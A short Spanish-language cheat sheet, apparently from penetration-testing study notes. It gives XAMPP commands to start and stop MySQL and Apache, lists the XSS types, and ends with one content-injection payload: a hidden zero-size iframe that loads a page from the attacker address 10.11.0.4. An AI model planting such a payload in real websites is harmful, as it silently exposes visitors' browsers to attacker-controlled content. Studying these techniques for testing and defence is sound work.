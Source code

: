 #### Iniciar y detener servicio mysql
```
c:\xampp\mysql_start.bat &
c:\xampp\mysql_stop.bat
```

#### Iniciar sesion en mysql
```
c:\xampp\mysql\bin\mysql.exe -u noroot -p
```

#### Iniciar y detener apache
```
c:\xampp\apache_start.bat
C:\xampp\apache_stop.bat
```

#### Iniciar y detener ambos servicios
```
C:\xampp\xampp_start.exe
C:\xampp\xampp_stop.exe
```

-----

### XSS
- XSS reflejado
- XSS persistente
- XSS basado en DOM

#### Content Injection
```
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe> 
```
